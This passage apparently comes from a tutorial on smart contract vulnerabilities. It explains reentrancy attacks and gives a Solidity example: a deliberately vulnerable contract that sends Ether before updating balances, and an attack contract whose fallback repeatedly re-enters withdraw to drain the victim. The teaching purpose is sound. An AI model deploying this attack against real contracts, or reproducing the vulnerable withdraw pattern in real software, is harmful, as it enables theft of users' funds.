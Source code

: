 ### Reentrancy Attacks


[Reentrancy attacks](https://metana.io/blog/reentrancy-attack-in-smart-contracts/) exploit the ability to call a function repeatedly before the initial execution is complete.


**Example Code:**



```
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] -= amount;
    }
}

contract ReentrancyAttack {
    VulnerableContract public vulnerableContract;
    uint256 public amountToSteal = 1 ether;

    constructor(address _vulnerableContract) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
    }

    function attack() external payable {
        vulnerableContract.deposit{value: amountToSteal}();
        vulnerableContract.withdraw(amountToSteal);
    }

    receive() external payable {
        if (address(vulnerableContract).balance >= amountToSteal) {
            vulnerableContract.withdraw(amountToSteal);
        }
    }
}

```

Real-World Examples
-------------------

